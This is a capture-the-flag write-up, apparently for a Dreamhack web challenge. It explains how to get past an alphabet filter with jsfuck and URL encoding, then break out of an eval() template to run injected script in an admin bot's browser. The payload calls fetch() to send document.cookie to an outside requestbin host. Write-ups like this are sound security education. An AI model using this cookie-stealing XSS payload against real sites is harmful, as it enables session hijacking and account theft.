



# solution

## need to know how to bypass anphabet filter

## url_encode (in a wisely way)

## tool and code to do all that

First, nothing quite interesting in the source code, except this code:

```
app.post("/report", (req, res) => {
  (async () => {
    const browser = await puppeteer.launch({
      executablePath: '/usr/bin/google-chrome',
      args: ["--no-sandbox"]
    });
    const page = await browser.newPage();
    await page.setCookie(...cookies);

    await page.goto(req.body.url);
    await delay(500);

    await browser.close();
  })();
  res.end('Reported!');
})
```

So path to solve is put a malicious payload into this url then we can take a flag. But first try to bypass filter in Baby'age field.
<br>
After searching, we can use jsfuck to bypass this filter. But you should url encode your payload because if you don't do that, url will treat plus sign as space and your payload will be broken.

```
# ',fetch('https://lowikqm.request.dreamhack.games/'+document.cookie),'
payload4 = input("your jfsuck: ")
payload4_encode = payload4.replace('+','%2B')
print("--------------------------------------------------------------")
print(payload4_encode)

```

You just need url encode the '+' and jsfuck the part among **',** (because server not filter ' and , :() ). And you see can see payload for baby's age **',fetch('https://lowikqm.request.dreamhack.games/'+document.cookie),'**. The question here is why use ',{payload},'. Take a look at eval() fuction.

```
eval(`msg.innerHTML='This is recommended album for ${age}-year-old.'`);
```

when we put this payload it's become

```
eval(`msg.innerHTML='This is recommended album for ',{payload},'-year-old.'`);
```

<br>
So the server will process each part in eval() in turn. So will trigger the payload we put in. You can use this url in this link if you don't have your own server **https://tools.dreamhack.games/requestbin/pyypfna**. And put you payload in age parameter below.
<br>
Hopefully you will get your flag.
